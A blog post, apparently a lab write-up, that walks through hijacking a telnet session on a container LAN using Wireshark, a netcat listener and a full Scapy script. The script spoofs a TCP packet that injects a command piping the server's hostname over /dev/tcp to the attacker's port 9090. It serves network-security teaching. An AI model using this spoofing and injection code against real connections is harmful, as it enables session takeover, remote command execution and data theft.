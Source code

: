 +++
title = "TCP Attack Lab 2 - Hijack"
date = "2023-04-30"
description = "Hijacking a TCP connection."

tags = ["network","security","writeups",]
+++


We hijack a TCP connection.

In the first part of this series, we conducted a TCP Reset attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In this second installment, we will hijack the `telnet` connection and execute an arbitrary command.


# Setup

The set up is the same as the [previous post](/blog/posts/tcp-0-attack-lab).

 
# Hijacking a `telnet` Connection

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server execute an arbitrary command on our behalf.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial screen capture"](/blog/images/tcp-hijacking/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet connection"](/blog/images/tcp-hijacking/telnet-init.png)

The telnet connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark screen capture"](/blog/images/tcp-hijacking/wireshark-data.png)

Using Wireshark to construct our hijack packet.

---


## Brief: `netcat`

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat init"](/blog/images/tcp-hijacking/netcat-init.png)

Setting up a TCP server using netcat to see the output of our hijack attack.

---


# Running the exploit

The following code will send our hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r hostname > /dev/tcp/10.9.0.1/9090 \r"

	pkt = ip/tcp/data

	print("SENDING HIJACK PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement number as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-hijacking/python-attack.png)

Running the attack program with arguments for source port, sequence, and acknowledgement numbers.

---

The `netcat` TCP server we established on port 9090 displays the output from the `hostname` command run on the server. 

!["netcat after"](/blog/images/tcp-hijacking/netcat-after.png)

The TCP server displays the hostname of the server.

---

Which we can verify matches User 2's hostname. 

!["result"](/blog/images/tcp-hijacking/hostname.png)

Hostname of the telnet server, User 2

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

We explored the TCP protocol in greater depth, hijacking a TCP connection between two users on the same LAN as the attacker and executing an arbitrary command.

In the final installment of this series, we will go a step further and execute a reverse shell using the TCP hijacking technique presented here.


### _Updated: April 30, 2023_